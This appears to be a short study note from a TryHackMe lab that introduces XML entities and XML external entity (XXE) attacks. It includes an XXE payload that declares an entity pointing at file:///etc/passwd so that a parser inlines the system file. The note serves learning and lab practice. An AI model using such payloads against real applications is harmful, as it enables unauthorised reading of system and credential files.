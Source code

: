 ![](assets/Pasted%20image%2020241206120649.png)
# Introduction

XML is a commonly used method to transport and store data in a structured format that humans and machines can easily understand. Entities in XML are placeholders that allow the insertion of large chunks of data or referencing internal or external files.

For example, an external entity references data from an external file or resource. In the following code, the entity `&ext;` could refer to an external file located at "`http://localhost/robots.txt`", which would be loaded into the XML, if allowed by the system:

```xml
<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://localhost/robots.txt">
]>
<people>
   <name>hexadivine</name>
   <address>&ext;</address>
   <email>hexadivne@gmail.com</email>
   <phone>111000</phone>
</people>
```

XXE is an attack that takes advantage of **how** **XML parsers handle external entities**. When a web application processes an XML file that contains an external entity, the parser attempts to load or execute whatever resource the entity points to. If necessary sanitisation is not in place, the attacker may point the entity to any malicious source/code causing the undesired behaviour of the web app.

```xml
<!DOCTYPE people[
   <!ENTITY pwd SYSTEM "file:///etc/passwd">
]>
<people>
   <name>hexadivine</name>
   <address>&pwd;</address>
   <email>hexadivne@gmail.com</email>
   <phone>111000</phone>
</people>
```

Below is the POC on THM machine.

![](assets/Pasted%20image%2020241206121744.png)
